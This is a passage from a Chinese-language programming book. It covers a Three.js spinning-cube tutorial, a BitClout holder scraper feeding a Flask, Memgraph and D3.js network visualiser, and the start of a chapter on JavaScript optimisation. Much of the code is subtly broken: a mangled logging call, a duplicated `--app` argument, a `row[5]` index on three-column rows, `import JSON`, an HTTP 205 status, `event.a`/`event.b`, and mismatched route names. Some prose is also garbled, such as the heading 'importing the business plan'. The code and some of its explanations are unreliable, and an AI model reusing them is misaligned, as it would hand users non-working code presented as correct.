使用 `var renderer = new THREE.WebGLRenderer();` 生成的场景对象代表了完整的 3D 世界，包含了我们希望用户看到的元素。我们还需要一个摄像机 (`var camera = new THREE.PerspectiveCamera(70,window.innerWidth / window.innerHeight,0.5,1500)`)，这是一个用户通过其观察世界的虚拟摄像机，可以是透视摄像机 (Perspective) 或正交摄像机 (Orthographic)。在这种情况下，我们将使用透视摄像机。`renderer.setSize(window.innerWidth, window.innerHeight)` 渲染器用于将摄像机看到的内容绘制到画布（一个平面）上。其 `domElement` 属性允许我们访问这个画布，随后我们通过 `document.body.appendChild(renderer.domElement)` 上的 `appendChild` 方法将其添加到网站中。

每一帧，`var update = function ()` 上的 update 函数都会运行，允许我们改变世界的状态。在运行 update 函数之后，我们调用 render 方法向用户展示新世界。这发生在 `Update ()` 和 `render ()` 这几行中。为了让功能每秒被调用多次，我们使用 `requestAnimationFrame(GameLoop)`（也称为一帧）。这种调用序列在 3D 应用中被称为 **GameLoop**（游戏循环）。

那么话不多说，让我们在浏览器中打开 `index.html` 文件并检查控制台是否有任何问题；你应该会看到一个完全黑色的屏幕。

#### 在本地机器上设置开发服务器

由于 JavaScript 的安全策略限制了外部资源的加载（我们在本节稍后会需要），因此不建议像之前那样通过直接双击 HTML 文件来本地启动项目。这包括纹理、模型等项。因此，请按照下面所述设置你自己的本地服务器，或者如果你有权限，将文件上传到在线服务器。

##### Windows 用户

使用 XAMPP（一个跨平台的 Apache MySQL 服务器）或 WampServer（一个 Windows Apache MySQL 服务器）。安装它，我们就可以在那里运行项目，一切就准备就绪了。

##### Mac 用户

只需打开一个终端窗口，`cd` 进入你的项目目录，并执行以下命令：

```bash
php -S 127.0.0.1:8080
```

如果该端口不可用，我们也可以使用备用端口。顺便说一下，如果你愿意，我们也可以在 python 服务器上运行代码，但大多数人更倾向于通过 PHP 运行。现在只需在浏览器中输入端口的 URL 即可访问该 Web 应用，例如：127.0.0.1:8080。

现在我们可以进一步推进了。

#### 绘制几何体和调整视口大小

Three.js 允许我们使用一些预制对象来填充我们的宇宙。我们通过利用库内置的构造函数实现了这一点。在本博文中，我们只需绘制一个立方体。Three.js 的官方网站列出了所有其他可用的绘制方法，如果需要我们可以使用。

首先，将 `index.html` 文件更改为如下所示。

```html
<html>
    <head>
        <title>Three.js 3D World</title>
<style>
    body{
        margin: 0;
    }

    canvas{
        width: 90%;
        height:90%;
    }
</style>
</head>
<body>
    <script src="js/three.min.js"></script>
    <script>
var scene = new THREE.Scene();
var camera = new THREE.PerspectiveCamera(70,window.innerWidth / window.innerHeight,0.5,1500)
var renderer = new THREE.WebGLRenderer();
renderer.setSize(window.innerWidth, window.innerHeight);
document.body.appendChild(renderer.domElement);
window.addEventListener('resize',function () {
    var width = window.innerWidth;
    var height = window.innerHeight;
    renderer.setSize(width,height);
    camera.aspect = width/height;
    camera.updateProjectionMatrix();
});
//this will create the shape
var ourcube = new THREE.BoxGeometry(1,1,1);

//this will create a material, color or image texture
var ourmesh = new THREE.MeshBasicMaterial({color:0xFFFFFF,wireframe:false});
var cube = new THREE.Mesh(ourcube, ourmesh);
scene.add(cube);
camera.position.z = 5;
// game logic basically rotation on axis
var update = function()
{
    cube.rotation.x += 0.03;
    cube.rotation.y += 0.004;
};
```


```javascript
//this will draw Scene
var render = function(){
    renderer.render(scene, camera);
};
//run game loop {update, render, repeat}
var GameLoop = function(){
    requestAnimationFrame(GameLoop);
    update();
    render();
};

GameLoop();
</script>
</body>
</html>
```

如果你是 3D 开发的新手，这一节可能需要花一些时间来解释。在 three.js 中，对象的生成遵循一定的顺序，或者我们可以说是一种恰当的方式。它并不倾向于“先到先得”，而是在命令正式执行前会维持一个特定的顺序。

因此，以下是旨在帮助我们更好地理解 3D 开发系统的步骤：

- 步骤 1：`var ourcube = new THREE.BoxGeometry(1,1,1);`
创建形状：我们首先定义项目的形状，即构成形状的几何体（geometry），例如，一个立方体有六个面和八个顶点。同样，我们可以选择圆形、球形等多种形状。这在 [第 1 章](#) 中有详细解释。

- 步骤 2：`var ourmesh = new THREE.MeshBasicMaterial({color:0xFFFFFF,wireframe:false});`
创建材质：材质决定了形状的颜色。创建材质有多种方法，但在本例中，我们使用了单一的白色材质。其他可以探索的选项包括：黑色 0x000000；红色 0xff0000；绿色 0x00ff00；以及蓝色 0x0000ff。

- 步骤 3：`var cube = new THREE.Mesh(ourcube, ourmesh);`
这两者必须被分配给一个新的立方体对象。

- 步骤 4：`scene.add(cube)`
最后，我们的几何体虽然已经存在，但尚未集成到我们的环境中。`scene.add` 命令将为把几何体引入 Web 应用程序铺平道路。

##### 视口更新调整（Resizing the Viewport Update）

如果你在想这究竟意味着什么，它的意思就如字面所示。简单来说，就是在你的项目标签页可见时调整浏览器窗口。当你这样做时，会看到一些白色区域；解决方法是刷新标签页，但你不可能在每次调整浏览器窗口大小时都刷新页面。这就是“视口调整更新”发挥作用的地方。

幸运的是，Three.js 将该解释简化为了几行代码，如下所示：

```javascript
window.addEventListener('resize',function ()
{
    var width = window.innerWidth;
    var height = window.innerHeight;
    renderer.setSize(width,height);
    camera.aspect = width/height;
    camera.updateProjectionMatrix();
});
```

#### 导入业务计划（IMPORTING THE BUSINESS PLAN）

现在我们必须获取一份启动项目的副本。在复制项目之后，第二步是将 zip 文件的内容解压到新位置。

浏览项目我们会发现，我们是从创建一个简单的网站开始的，并且已经在 `index.html` 中导入并安装了 three.js。这是一个很好的起点，因为现在唯一剩下的工作就是 three.js 的开发。画布（canvas）已经准备就绪。让我们开始添加 three.js 部分。

#### 启动项目布局（THE STARTER PROJECT LAYOUT）

启动项目应用了我们在本课中所学的一切，将 3D 场景放置在真实世界在线商店的产品图片区域中。当用户点击底部的其中一个圆点时，图像会转换为 3D。当你在网页上点击第二个圆点时（记得使用服务器），会显示一个白色屏幕。屏幕的颜色完全取决于你在函数中输入的颜色。

```
这实际上是一个背景颜色为白色的空场景（draw scene, game.code.js）。
```

为了便于管理，样式和 JavaScript 已被分别放置在不同的文件中；将复杂的 js 代码与 HTML 分开是最佳实践。主游戏代码已移至 `game.code.js`，这将成为我们主要的工作文件。让我们继续完成该应用程序。

#### 选择 3D 模型（SELECTING 3D MODELS）

我们需要通过执行一个高质量的 3D 模型来为我们的网站进行切换。网上有几个可以找到与 threejs.com 兼容的 3D 模型的地方，例如 Blender 基金会的 **Blender**；Allegorithmic 的 **Substance Painter**；Foundry 的 **Modo**；Marmoset 的 **Toolbag**；SideFX 的 **Houdini**；MAXON 的 **Cinema 4D**；Khronos Group 的 **COLLADA2GLTF**；Facebook 的 **FBX2GLTF**；Analytical Graphics Inc 的 **OBJ2GLTF** 以及众多补充工具，但大多数用户严重依赖 **Sketchfab**。

我们应该使用的文件格式也是需要考虑的问题。3D 世界使用各种文件格式，为了保持标准化，我们通常应该在单个项目中坚持使用一种文件格式。因此对于本项目，我们选择了 GLTF，因为它能将模型的一致性完整地导入，尽管 OBJ 是更受欢迎的文件格式类型，但无论如何，在这种情况下让我们坚持使用 GLTF 这一种格式。

幸运的是，本项目所需的 3D 模型已经提供在 `start project/model/NAME OF THE PRODUCT` 中。

将所有类型的格式导入 three.js 遵循类似的模式。一旦准备好文件，我们就必须找到合适的加载器（loader）。通常使用导出单个类的单一 js 脚本作为加载器。它们位于 three.js 下载文件夹的 `./examples/js/loaders` 路径下，而且数量相当多。

在 `game.code.js` 中，我们已经向项目中添加了 GLTF 加载器。

##### 3D 模型加载（3D Models Loading）

现在进入激动人心的部分。在添加加载器之后，我们需要进入 `game-code.js` 并添加以下代码：

```javascript
loader.load("model/ NAME OF THE PRODUCT /scene.gltf",
function (gltf) {
    gltf.scene.position.set(10, -10, 8);
    scene.add(gltf.scene);
});
```

这段代码使用加载器打开 3D 模型（作为 `scene.gltf`），然后插入模型加载完成时的回调函数。

一旦模型加载完成，我们使用 `scene` 将其添加到场景中。在 three.js 中，`add(object)` 是场景对象的方法。这就是在 three.js 中添加自定义对象所需做的一切；轨道相机（orbit camera）将处理其余部分。回到浏览器，点击刷新，切换到第二个圆点，就这样完成了。

##### 重要的 3D 开发建议

最后，3D 开发与 Web 开发之间存在几个显著的区别。虽然所有领域都需要代码，但如果你不是以游戏开发者的身份开启职业生涯，你可能不熟悉 three.js 的一些更具功能性的组件。花更多时间查阅 three.js 手册，以更好地掌握所教授的一些 3D 原理。3D 能实现的成就非常之多，而我们目前仅触及了皮毛。

一旦我们熟悉了 Three.js 的核心概念，我们就可以为网站添加更多功能，使其对客户而言更加美观。

#### 总结（SUMMARY）

Three.js 是一个 JavaScript 工具包，它使得在 Web 上创建 3D 视觉效果比直接使用 WebGL 要简单得多。Three.js 是互联网上最受欢迎的 3D JavaScript 库，且使用非常简单。本章的目的是帮助你理解如何使用 THREE.js 并创建 3D Web 应用程序。Three.js 为我们提供了广泛的 3D 图形选项。因此，我们可以参考一些创新网站的示例，将其作为灵感，使用 Three.js JavaScript 包来创建并制作令人惊叹的基于浏览器的 3D 视觉效果。

#### 笔记（NOTES）

- 1. 创建场景-Three.js 手册。
- 2. 60 个令人惊叹的 THREEJS 网站示例-Henri, Bashooka。

# 第 4 章：应用程序开发 III

## 本章内容

- 网络概念
- 使用 Djs.js 构建应用
- 关键字与语法

网络不仅仅是一种数据格式；它们是一种看待数据的方式。在处理网络数据时，目标通常是寻找并展示网络或网络区域中的模式，而不是单个节点。虽然你可以利用网络可视化来创建出色的图形索引（如思维导图或网站的网络图），但大多数信息可视化方法强调的是网络结构而非单个节点。

由于社交网络、社交媒体以及 Web 2.0 中关联数据的出现，网络分析和网络可视化已变得更加普及。由于它们专注于对象是如何连接的，网络可视化非常有趣且易于理解。与大多数数据表示中常见的传统扁平数据相比，它们能更真实地描绘系统。

理解网络术语对个人而言至关重要。在处理网络时，节点（nodes）即为被连接的对象。

DOI: 10.1201/9781003356608-4


### BitClout 社交网络分析

（如人）或边（edge）或链接（links）是它们之间的关系（如成为 Facebook 好友）。由于边在顶点处相交，节点有时也被称为顶点。尽管带有标记节点和边的图形可能看起来很方便，但本章的一个要点是，**不存在单一的网络表示方法**。由于图（graph）是网络在数学中的称谓，因此也可以这样命名。最后，网络中节点的**中心性**（centrality）是一个用来描述其重要性的术语。

BitClout 正是一种这样的革命性去中心化社交网络，它允许你用真金白银押注于人和帖子的价值。它从头开始设计为独立的区块链。其设计与比特币完全相同，只是它支持复杂的社交网络模型，如帖子、个人资料、关注者、投机功能等，并且具有相当高的吞吐量和规模。与比特币一样，BitClout 是一个完全开源的项目，没有任何公司支持它；它只是代币和代码。

本章将学习如何使用 **Memgraph**、**Python** 和 **D3.js** 创建一个简单的应用程序，用于显示和分析 BitClout 社交网络。

## BitClout 究竟是什么？

BitClout 是一种新型的社交网络，结合了投机和社交媒体，并且从头开始构建在其定制区块链之上。其设计可与比特币相媲美。然而，它能够以相当更好的吞吐量和规模处理复杂的社交网络数据，如帖子、个人资料、关注者、投机功能等。与比特币一样，BitClout 是一个完全开源的项目，没有任何公司支持它——只有其代币和代码。

### 前提条件

- **Memgraph DB** 是一个流式图应用平台，使你能够管理流式数据，创建可实时查询的复杂模型，并构建你从未想象过的应用程序，所有这些都基于图的力量。请按照说明安装 Docker。
- **Flask** 是一个 Web 框架，包含 Web 开发工具、库和技术。Flask 应用程序的规模可以从单个网页到管理界面不等。
- **Docker 和 Compose** 是用于创建、部署和执行应用程序的开放平台。它使你的应用程序与基础设施（主机）隔离。在 Windows 上安装 Docker 时，Compose 已经安装。此网页适用于 Linux 和 Mac 用户。
- **Python 3** 是一种高级的通用解释型编程语言。
- **Pymgclient** 是一个用 Python 编写的 Memgraph 驱动程序。

那么让我们开始编写代码，着手开发一个应用程序。

## 从 BitClout HODLers 抓取数据

要从 BitClout 网站获取数据，我们必须使用 HTML 渲染方法进行抓取，或者直接通过未记录的 API 向 BitClout 服务器发送请求。抓取可能会稍微容易一些，因为你不必太担心请求头。这可以通过使用 Python 浏览器（如 Selenium）并利用 Beautiful Soup 解析 HTML 来实现。¹ API 可能更难使用，但其优点是不需要解析。那么让我们从个人脚本开始。

## Python 脚本

```python
import os
import json
import requests

from heapq import heappush
from multiprocessing import Process

headers = {
    'authority': 'bitclout.com',
    'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="90"',
    'accept': 'application/json, text/plain, */*',
    'sec-ch-ua-mobile': '?0',
    'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36',
    'content-type': 'application/json',
    'origin': 'https://bitclout.com',
    'sec-fetch-site': 'same-origin',
    'sec-fetch-mode': 'cors',
    'sec-fetch-dest': 'empty',
    'accept-language': 'en-GB,en;q=0.9,hr-HR;q=0.8,hr;q=0.7,en-US;q=0.6,de;q=0.5,bs;q=0.4',
    # IMPORTANT: CHANGE TO OWN 'cookie' HEADER
    'cookie': 'amplitude_id_YOUR_OWN_BITCLOUT_COOKIE',
    'sec-gpc': '1',
}
```

```python
def get_hodlers(users):
    for user in users:
        data = f'{{ "PublicKeyBase58Check":"", "Username":"{user}", "LastPublicKeyBase58Check":"", "NumToFetch":100, "FetchHodlings":false, "FetchAll":true }}'

        response = requests.post('https://bitclout.com/api/v0/get-hodlers-for-public-key', headers=headers, data=data)

        hodlers = response.text
        with open(f'hodlers/{user}.json', 'w') as f:
            print(hodlers, file=f)
```

```python
if __name__ == '__main__':
    users = []
    seen = set()
    directory = os.path.dirname(__file__) + '/hodlers'
    for f in os.listdir(directory):
        seen.add(f[:-5])

    for f in os.listdir(directory):
        with open(directory + '/' + f) as fp:
            try:
                hodlers = json.load(fp)['Hodlers']
            except Exception:
                continue
```

```python
    for hodler in hodlers:
        try:
            n = hodler['ProfileEntryResponse']['CoinEntry']['NumberOfHolders']
            user = hodler['ProfileEntryResponse']['Username']
            if user not in seen:
                heappush(users, user)
        except Exception:
            continue
```

```python
    print(len(users))
    multiplier = len(users) // 100
    processes = []
    for i in range(100):
        processes.append(Process(
            target=get_hodlers,
            args=(users[i * multiplier:(i + 1) * multiplier],)
        ))
        processes[-1].start()

    for p in processes:
        p.join()
```

## Flask 服务器后端开发

在开始开发之前，我们必须首先确定 Web 应用程序的架构。

由于该应用程序的主要目的是查看 BitClout 网络，我们将创建一个仅有一个视图的简单 Flask 服务器。这也将帮助你轻松地为应用程序添加更多功能或各种可视化选项。

让我们构建一个能够处理一切的 Flask 服务器。创建一个名为 `bitclout.py` 的文件，并将以下代码粘贴到其中：

```python
import os
MG_HOST = os.getenv('MG_HOST', 'Address')
MG_PORT = int(os.getenv('MG_PORT', 'No'))
```

环境变量稍后将在 `docker-compose.yml` 文件中指定，这就是在 Python 中访问它们的方式。让我们开始一些简单的日志记录：

```python
import logging
log = logging.getLogger(__name__)

def init_log():
    logging.basicConfig(level=logging.INFO)
    log.info("Logging enabled")
    logging.get.html"werkzeug").setLevel(logging.WARNING)

init_log()
```

这里没有什么特别的，但它会让我们很好地了解软件是如何工作的。同样地，让我们定义一个可选的输入参数解析器：

```python
from argparse import ArgumentParser

def parse_args():
    parser = ArgumentParser(description=__doc__)
    parser.add_argument("--app", default="1.1.1.1",
                        help="Host address.")
    parser.add_argument("--app", default=4000,
                        type=int,
                        help="App.")
    parser.add_argument("-folder", default="private/template",
                        help="Path to the directory with flask templates.")
    parser.add_argument("--New-folder", default="public/templet",
                        help="Path to the directory with flask static files.")
    parser.add_argument("--debug", default=False, action="store_true",
                        help="Running of server in debug mode.")
    parser.add_argument("--load-data", default=True, action='store_true',
                        help="Loading BitClout network into Memgraph.")
    print(__doc__)
    return parser.parse_args()

args = parse_args()
```

这将允许我们在启动时使用参数自定义应用程序的行为。
例如，`--load-data` 标志将在第一次运行应用程序时使用，因为我们需要创建数据库。
下一步是连接到 Memgraph，以便填充数据库并稍后检索数据：

```python
import mgclient
import time

connection_established = False
while(not connection_established):
    try:
        connection = mgclient.connect(
            host=MG_HOST,
            port=MG_PORT,
            username="",
            password="",
            sslmode=mgclient.MG_SSLMODE_DISABLE,
            lazy=True)
        connection_established = True
    except:
        log.info("Memgraph probably isn't running.")
    time.sleep(4)

cursor = connection.cursor()
```

这是一种有些低效的连接数据库的方法，但它有效。
是时候开始构建你的服务器了：

```python
from flask import Flask

app = Flask(__name__,
           template_folder=args.template_folder,
           static_folder=args.static_folder,
           static_url_path='')
```

最后，我们将编写通过 HTTP 请求从浏览器调用的视图函数。


### 114 征服JavaScript：D3.js

`load_all()` 视图函数从数据库中检索所有节点和关系，过滤掉最重要的数据，并以 JSON 格式返回以进行可视化。我们将提供一个包含每个节点 id（不提供节点的其他信息）的列表，以及一个定义它们连接方式的列表，以保持网络负载最小化。

```python
import JSON
from flask import Response

@app.route('/load_all', methods=['GET'])
def load_all():
    """Load data from the database."""
    start_time = time.time()
    try:
        cursor.execute("""MATCH (n)-[r]-(m)
                                    RETURN n, r, m
                                    LIMIT 2000;""")
        rows = cursor.fetchall()
    except:
        log.info("Something wrong.")
        return ('', 200)
    links = []
    nodes = []
    visited = []
    for row in rows:
        d = row[0]
        e = row[5]
        if d.id not in visited:
            nodes.append({'id': d.id})
            visited.append(d.id)
        if e.id not in visited:
            nodes.append({'id': e.id})
            visited.append(e.id)
        links.append({'source': d.id, 'target': e.id})
    response = {'nodes': nodes, 'links': links}
    duration = time.time() - start_time
    log.info("Data fetched in: " + str(duration) + " minutes")
    return Response(
        JSON.dumps(response),
        status=205,
        mimetype='application/json')
```

`index()` 视图方法返回默认的首页视图，该视图位于 `/public/templates/index.html` 文件中：

```python
from flask import render_template

@app.route('/', methods=['GET'])
def index():
    return render_template('index.html')
```

现在剩下的就是实现并调用 `main()` 方法：

```python
def main():
    if args.load_data:
        log.info("Loading data into Memgraph.")
        database.load_data(cur)
    app.run(host=args.app_host, port=args.app_port, debug=args.debug)

if __name__ == '__main__':
    main()
```

## 将 BitClout 网络导入 Memgraph

我们将利用三个独立的 CSV 文件来填充 Memgraph 中的 BitClout 网络数据。第一个任务是创建一个名为 `database.py` 的模块，其中包含一个 `load_data` 函数（接收 `cursor` 参数）。该函数使用 `cursor` 对象向数据库提交查询。让我们开始并逐步推进：

```python
def load_data(cursor):
    cursor.execute("""MATCH (n)
                        DETACH DELETE n;""")
    cursor.fetchall()
    cursor.execute("""CREATE INDEX ON :User(id);""")
    cursor.fetchall()
    cursor.execute("""CREATE INDEX ON :User(name);""")
    cursor.fetchall()
    cursor.execute("""CREATE CONSTRAINT ON (user:User)
                        ASSERT user.id IS UNIQUE;""")
    cursor.fetchall()
```

如果数据库中存在任何意外数据，第一个查询会删除所有内容。每次查询执行后会出现一个游标。我们需要使用 `fetchall()` 来提交数据库事务。为了更快地处理，第二个和第三个查询建立了数据库索引。由于每个用户必须具有唯一的 `id` 属性，第四个查询提供了一个约束。以下是从 CSV 文件构建节点的查询：

```python
cursor.execute("""Load CSV FROM '/usr/lib/memgraph/import-data/profiles-1.csv'
              With header AS row
              Create (sample:User {ids: row.ids})
              SET sample += {
                  name: row.Identity,
                  description: row.description,
                  image: row.image,
                  isHidden: row.isHidden,
                  isReserved: row.isReserved,
                  isVerified: row.isVerified,
                  coinPrice: row.coinPrice,
                  creatorBasisPoints: row.creatorBasisPoints,
                  lockedNanos: row.lockedNanos,
                  nanosInCirculation: row.nanosInCirculation,
                  watermarkNanos: row.watermarkNanos
              };""")
cursor.fetchall()
```

然而，这不足以加载网络的所有节点。由于 GitHub 对文件大小有限制，节点被分到两个 CSV 文件中：`profiles-1.csv` 和 `profiles-2.csv`。运行以下命令可以帮助你建立关系：

```python
cursor.execute("""Load CSV FROM '/usr/lib/memgraph/import-data/hodls.csv'
              With header AS row
              Match (hodls:User {ids: row.from})
              Match (creator:User {ids: row.to})
              Create (hodls)-[:HODLS {amount: row.nanos}]->(creator);""")
cursor.fetchall()
```

## 使用 D3.js 进行前端开发

老实说，你可能来这里是想看看 D3.js 是否值得考虑用于这种类型的可视化，或者想了解它有多容易学习。这也是为什么我不会浪费你的时间去阅读 HTML 文件的原因。只需在 `public/templates/` 目录中创建一个 `index.html` 文件，并将内容粘贴进去即可。只有一行代码很突出：

```html
<canvas width="800" height="600" style="border: . . ."> </canvas>
```

这一行很重要，因为在进入下一步之前，你必须首先决定是使用 canvas 还是 SVG。通常情况下，答案取决于具体情况。

这篇 Stack Overflow 帖子对这两种技术进行了很好的概述。简而言之，canvas 更难掌握和交互，但 SVG 更直观、更易于建模交互。另一方面，Canvas 性能更好，可能更适合我们这样的大型数据集。我们也可以同时使用两者。在这篇文章中，我们展示的是整个网络，但如果你只想查看一部分，你也可以这样做。

```javascript
const width = 800;
const height = 600;
var links;
var nodes;
var simulation;
var transform;
```

这些只是脚本的一些全局变量。现在让我们获取 canvas 元素的上下文：

```javascript
var canvas = d3.select("canvas");
var context = canvas.node().getContext('2d');
```

下一步是创建一个 HTTP 请求来从服务器获取数据：

```javascript
var xmlhttp = new XMLHttpRequest();
xmlhttp.open("GET", '/load-all', true);
xmlhttp.setRequestHeader('Content-type', 'application/json; charset=utf-8');
```

最重要的部分是检索和可视化数据。当服务器返回请求的 JSON 数据时，你将在事件处理程序 `onreadystatechange()` 方法中执行此操作：

```javascript
xmlhttp.onreadystatechange = function () {
    if (xmlhttp.readyState == 4 && xmlhttp.status == 200) {
        data = JSON.parse(xmlhttp.responseText);
        links = data.links;
        nodes = data.nodes;
        simulation = d3.forceSimulation()
            .force("center", d3.forceCenter(width / 2, height / 2))
            .force("x", d3.forceX(width / 2).strength(0.2))
            .force("y", d3.forceY(height / 2).strength(0.2))
            .force("charge", d3.forceManyBody().strength(-30))
            .force("link", d3.forceLink().strength(1).id(function (d) { return d.ids; }))
            .alphaTarget(0)
            .alphaDecay(0.04);
        transform = d3.zoomIdentity;
        d3.select(context.canvas)
            .call(d3.drag().subject(dragsubject).on("start", dragstarted).on("drag", dragged).on("end", dragended))
            .call(d3.zoom().scaleExtent([2 / 15, 6]).on("zoom", zoomed));
        simulation.nodes(nodes)
            .on("tick", simulationUpdate);
        simulation.force("link")
            .links(links);
    }
}
```

这里解析了 JSON 响应数据，并将其分为两个列表：节点和链接。`forceSimulation()` 方法负责构建我们的网络和单个节点的放置。还必须将特定函数映射到拖拽和缩放等事件。现在让我们实现这些函数。当元素的位置改变时，将调用函数 `simulationUpdate()` 来重绘 canvas：

```javascript
function simulationUpdate() {
    context.save();
    context.clearRect(0, 0, width, height);
    context.translate(transform.x, transform.y);
    context.scale(transform.k, transform.k);
    links.forEach(function (d) {
        context.beginPath();
        context.moveTo(d.source.x, d.source.y);
        context.lineTo(d.target.x, d.target.y);
        context.stroke();
    });
    nodes.forEach(function (d) {
        context.beginPath();
        context.arc(d.x, d.y, radius, 0, 4 * Math.PI, true);
        context.fillStyle = "#FFA500";
        context.fill();
    });
    context.restore();
}
```

当用户拖动元素或文本选择时，会触发 `dragstart` 事件：

```javascript
function dragstarted(event) {
    if (!event.active) simulation.alphaTarget(0.4).restart();
    event.subject.fx = transform.invertX(event.x);
    event.subject.fy = transform.invertY(event.y);
}
```


当用户拖动元素时，`dragged` 事件会定期触发：

```javascript
function dragged(event) {
    event.subject.fx = transform.invertX(event.a);
    event.subject.fy = transform.invertY(event.b);
}
```

当拖拽操作完成时，会触发 `dragended` 事件：

```javascript
function dragended(event) {
    if (!event.active) simulation.alphaTarget(0);
    event.subject.fx = null;
    event.subject.fy = null;
}
```

以上就是前端部分的全部内容！

## 搭建您的 Docker 环境

最后剩下的步骤是将您的应用程序 Docker 化。首先在根目录下创建一个 `docker-compose.yml` 文件：

```yaml
version: "3"
services:
  memgraph:
    image: "memgraph/memgraph:latest"
    user: root
    volumes:
      - /memgraph/entrypoint:/usr/lib/memgraph/entrypoint
      - ./memgraph/import-data:/usr/lib/memgraph/import-data
      - ./memgraph/mg_lib:/var/lib/memgraph
      - ./memgraph/mg_log:/var/log/memgraph
      - ./memgraph/mg_etc:/etc/memgraph
    ports:
      - "7687:7687"
  bitclout:
    build: .
    volumes:
      - .:/app
    ports:
      - "5000:5000"
    environment:
      MG_HOST: memgraph
      MG_PORT: 7687
    depends_on:
      - memgraph
```

正如您从 `docker-compose.yml` 文件中看到的，这里有两个不同的服务。第一个是 memgraph，第二个是 bitclout（一个 Web 应用程序）。根目录下还必须添加一个 Dockerfile，这将定义如何构建 bitclout 镜像。

```dockerfile
FROM python:3.8
### Install CMake
RUN apt-get update && \
    apt-get --no-install-recommends install cmake
### Install mgclient
RUN apt-get install -y git cmake make gcc g++ libssl-dev && \
    git clone https://github.com/memgraph/mgclient.git && \
    cd mgclient && \
    git checkout dd5dcaaed5cd7c8b275fbfd5d2ecbfc5006fa5826 && \
    mkdir build && \
    cd build && \
    cmake .. && \
    make && \
    make install
### Install packages
COPY requirements.txt .
RUN pip3 install -r requirements.txt
### Copy the source code to the container
COPY public /app/public
COPY bitclout.py /app/bitclout.py
COPY database.py /app/database.py
WORKDIR /app
ENV FLASK_ENV=development
ENV LC_ALL=C.UTF-8
ENV LANG=C.UTF-8
ENTRYPOINT ["python3", "bitclout.py", "--load-data"]
```

所有 Python 依赖项都通过命令 `RUN pip3 install -r requirements.txt` 安装。`requirements.txt` 文件只有两个依赖：

```text
Flask==1.1.2
pymgclient==1.0.0
```

## 启动您的应用程序

在根目录下，执行以下命令来启动 App：

```bash
docker-compose build
docker-compose up
```

如果您遇到权限问题，请在命令前加上 `sudo`。

第一次运行容器时，请保持原样。因为使用了 Docker 卷（volumes）来持久化数据，您不再需要从 CSV 文件将 BitClout 数据加载到 Memgraph 中。修改 `./Dockerfile` 的最后一行以禁用自动 CSV 加载：

```dockerfile
ENTRYPOINT ["python3", "bitclout.py"]
```

在不带加载数据参数的情况下运行服务器，其效果基本上是一样的。

# 总结

在本章中，我们学习了如何使用 Memgraph、Python 和 D3.js 来创建 BitClout 可视化 App。基于此，您可以进一步实现一些功能。

### 注意
- https://pypi.org/project/beautifulsoup4/

# 第 5 章：代码优化

## 本章内容
- 高效的代码编写
- 错误处理
- 代码安全性

在上一章中，我们学习了如何使用 D3.js 和其他图形框架构建社交网络软件。应用程序开发需要编写代码，而一个应用可能需要大量代码，这导致开发过程中会出现许多错误。

### 编写优化且高效的代码

在编写代码时，我们会在乍一看似乎相似的解决方案之间做出决定和选择。后来经常发现，某些选择会导致程序比其他选择更高效，从而促使人们寻找最佳编码实践和优化方法。我们开始将整个开发过程视为一个优化问题。

尽管优化问题并非开发人员每天面对的唯一问题（其他决定和搜索问题也很多），但它是 Web 创建中涵盖阶段最多的工作。根据优化与机器代码的接近程度，代码优化可以在多个层级发生。在 Web 开发中，由于汇编级或运行时级优化并非可行选项，我们只能执行更高级别的优化，但我们仍然有很多选择。

通过将编码风格指南纳入工作流程，我们可以提高团队的性能。我们可以在架构层级使用智能设计模式优化代码，在源代码层级使用最佳编码实践和相关工具，在团队层级使用最佳编码实践和适当工具。

无论采用哪种方法，在每个代码优化任务中都必须遵守一条基本原则：**效率永远不能扭曲脚本的含义**。随着项目的增长，代码优化的优势也随之增加，因为即使是小项目随着时间的推移也可能变得巨大，学习出色的代码优化技巧几乎总是能带来显著收益。

### 熟悉异步编程

您的应用程序需要进行多次内部 API 调用以获取数据。一种解决此问题的方法是为每个功能获取不同的中间件。由于 JavaScript 是单线程的，它包含一些同步组件。这些组件有可能锁定整个程序。

然而，JavaScript 的 `async.js` 特性有助于高效管理异步代码。因此，异步代码被放入事件队列中，在所有其他代码执行完毕后再触发。即使有了 JavaScript 的异步功能，仍可能使用外部库将其还原为同步阻塞调用。这可能会对整体性能产生负面影响。

处理此问题的最佳方法是在代码中使用异步 API。但您应该记住，对于初学者来说，学习异步编程的复杂细节可能会比较困难。

在 D3 中，当您在 App 中加载页面时，它会异步加载 HTML、CSS 和 JS。如果某个功能失效，将只有该功能无法加载。如果您更新了某个功能的数据，无需重新加载页面，因为它会在您与之交互时实时更新。

### 匿名函数与 D3 函数

这类似于 Python 中的 lambda 函数。

这是在 D3 v4 中导入 CSV 文件的方法。正如 D3 中所示，您也可以使用 Promise 加载文件。使用 Promise 来加载 CSV 文件。

```javascript
d3.csv("file.csv", function(data) {
    somethingHappens(data);
});
console.log(data);
```

这是一个匿名回调函数 `(data)`。它在返回到此函数之前执行大括号内的代码。

即使数据尚未完全加载，脚本也会继续运行 `console.log(data)`。随后控制台将显示没有数据。您可以干预此代码并添加计时器，但我们要给该函数多少时间呢？

```javascript
d3.csv("file.csv", function(data) {
    somethingHappens(data);
});
someSortOfTimer(60);
console.log(data);
```

相反，请将所有使用加载数据的代码都写在回调函数中：

```javascript
d3.csv("file.csv", function(data) {
    somethingHappens(data);
    console.log(data);
});
```

### 保持代码简洁明了

为了保持移动应用程序的极佳性能，使代码尽可能轻量和紧凑至关重要。保持代码短小精悍可以减少延迟并提高速度。另一种提高应用程序性能的方法是将多个 JS 文件合并并精简为一个文件。如果您的 App 有七个 JavaScript 文件，浏览器将需要发送七个不同的 HTTP 请求才能获取所有文件。为了绕过这一点，请将这七个文件合并为一个精简的文件。

#### 尽可能避免循环

不建议在 JavaScript 中频繁使用循环，因为它会给浏览器带来额外负担。值得注意的是，在循环中工作需要较少的努力。您在循环中投入的工作越少，它完成的速度就越快。还有一些简单的解决方案，例如将数组的长度保存在一个单独的变量中，而不是在每次循环迭代时重新获取。这可能有助于我们优化代码并让程序运行得更流畅。


#### 征服 JavaScript：D3.js

一个 0 到 10 的 for 循环：

```javascript
var i
for (i = 0; i < 10; i++) {
  console.log(i)
}
```

一个包含所有列表元素的 for 循环：（请注意，它不会返回 a、b 或 c。）

```javascript
var allGroup = ["a", "b", "c"]
for (i in allGroup){
  console.log(i)
}
```

在 while 循环中从 0 计数到 10：

```javascript
while (i < 10) {
  console.log(i)
  i++;
}
```

#### 减少 DOM 访问

